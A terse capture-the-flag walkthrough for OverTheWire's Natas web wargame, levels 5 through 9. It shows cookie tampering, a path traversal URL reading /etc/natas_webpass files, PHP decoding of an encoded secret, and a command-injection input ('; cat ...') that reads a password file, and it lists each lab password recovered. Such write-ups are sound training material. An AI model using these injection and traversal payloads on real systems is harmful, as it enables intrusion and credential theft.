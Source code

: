 ### Level 5

```
Modify "loggedin" cookie to 1

Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

### Level 6

```
View source code and see that it include "includes/secret.inc";
view-source:http://natas6.natas.labs.overthewire.org/includes/secret.inc        <--- FOEIUWGHFEEUHOFUOIU

Submit secret
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
```

### Level 7

```
view-source:http://natas7.natas.labs.overthewire.org/index.php
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

http://natas7.natas.labs.overthewire.org/index.php?page=../
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8       <--- DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
```

### Level 8

```
viewing source code provided we can do simply reverse the functions

root@kali:~# php -a
Interactive mode enabled

php > echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));
oubWYf2kBq
php > oubWYf2kBq

W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

### Level 9

```
; cat /etc/natas_webpass/natas10 #
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

### Level 10
